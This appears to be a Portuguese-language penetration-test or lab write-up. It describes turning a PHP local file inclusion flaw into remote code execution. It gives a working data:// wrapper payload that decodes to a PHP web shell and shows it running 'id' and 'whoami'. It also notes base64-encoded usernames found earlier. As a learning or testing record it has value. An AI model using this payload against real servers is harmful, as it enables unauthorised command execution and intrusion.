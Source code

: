 ## 🧪 Testes Realizados 💉

### Teste 2:
<img width="995" height="207" alt="image" src="https://github.com/user-attachments/assets/ddd1206a-14f5-4ec6-abfd-5a8ce98cd182" />

### Teste 3:
<img width="987" height="173" alt="image" src="https://github.com/user-attachments/assets/44b6b4d2-7e4d-41cb-b10c-b6898e0d6810" />

- Com base nos comandos e erros retornados, foi possível **ajustar a exploração da vulnerabilidade**.

---

## 🔑 Analise de Credenciais Encontradas Antes

- Durante as análises, com base em uma lista que criei a partir da vulnerabilidade da porta 22, observei indícios de credenciais em **Base64**:

- root → `cm9vdA==`  
- ftp → `ZnRw`  

- Isso sugere que o LFI pode estar relacionado a um **sistema x64**, abrindo espaço para **testes de injection em Base64**.

---

## ⚙️ Exploração com Data Wrapper (RCE)

- Pesquisando sobre possíveis **RCEs (Remote Code Execution)**, encontrei que é possível usar `data://text/plain;base64` para injetar comandos.

### ▶️ Executando `id` 💉
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=id
```

<img width="1461" height="193" alt="image" src="https://github.com/user-attachments/assets/ba17d026-9e13-45e5-ac4c-1ac20da10a77" />

- ⚠️ A resposta não aparece diretamente no site, mas analisando via **F12 (DevTools)**, conseguimos verificar que o comando foi processado corretamente.

---

### ▶️ Executando `whoami` 💉
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=whoami
```

<img width="1096" height="194" alt="image" src="https://github.com/user-attachments/assets/c9d29a71-2c0a-489a-a182-f5e6d63bf92a" />

---
